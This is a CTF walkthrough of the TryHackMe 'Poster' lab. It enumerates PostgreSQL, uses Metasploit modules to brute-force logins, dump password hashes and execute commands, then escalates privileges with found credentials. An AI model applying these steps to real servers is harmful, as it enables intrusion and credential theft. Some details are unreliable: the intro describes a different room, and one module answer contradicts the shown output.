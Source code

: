 ```yaml
---

title: Walkthrough - Poster
published: true
---
```


RDBMS, SQL, Enumeration, Metasploit. Time to enter the warren... Can you hack into the Year of the Rabbit box without falling down a hole?

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- `sudo nmap -sV -sS -sC -O -p22,80,5432 -T4 10.10.5.243`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.21
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* * * 

## What is the rdbms installed on the server?

- postgresql

* * * 

## What port is the rdbms running on?

- 5432

* * * 

## Metasploit contains a variety of modules that can be used to enumerate in multiple rdbms, making it easy to gather valuable information. After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?

- `msf6 auxiliary(scanner/postgres/postgres_login) > set rhosts 10.10.5.243`

* * * 

## What are the credentials you found? user:password

- `[+] 10.10.5.243:5432 - Login Successful: postgres:password@template1`

* * * 

## What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?

```
msf6 auxiliary(admin/postgres/postgres_sql) > run
[*] Running module against 10.10.5.243

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

* * * 

## Based on the results of #6, what is the rdbms version installed on the server?

- 9.5.21

* * * 

## What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?

- `auxiliary/admin/postgres/postgres_sql`

* * * 

## How many user hashes does the module dump?

```
msf6 auxiliary(scanner/postgres/postgres_hashdump) > run

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* * * 

## What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?

- `auxiliary/admin/postgres/postgres_readfile`

* * * 

## What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?

- `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`

* * * 

## Compromise the machine and locate user.txt

Found in a users dir:

```
postgres@ubuntu:/home/dark$ cat credentials.txt 
cat credentials.txt
dark:qwerty1234#!hackme
```

- we are able to loging via ssh with these creds

- `cat /etc/crontab` we find root is running a script `root    cd /opt/ufw && bash ufw.sh`

```
$ cat ufw.sh
ufw disable
```

we dont have access to write to this file. might be able to do soemthing with PATH but check some other things first. run linpeas.sh

find some loot

- `$dbpass = "p4ssw0rdS3cur3!#";  `
- /var/www/html/config.php
```
dark@ubuntu:/var/www/html$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
```

- su to alison with creds

* * * 

## Escalate privileges and obtain root.txt

- `sudo -l`
- `alison@ubuntu:/$ sudo cat root/root.txt`

* * * 

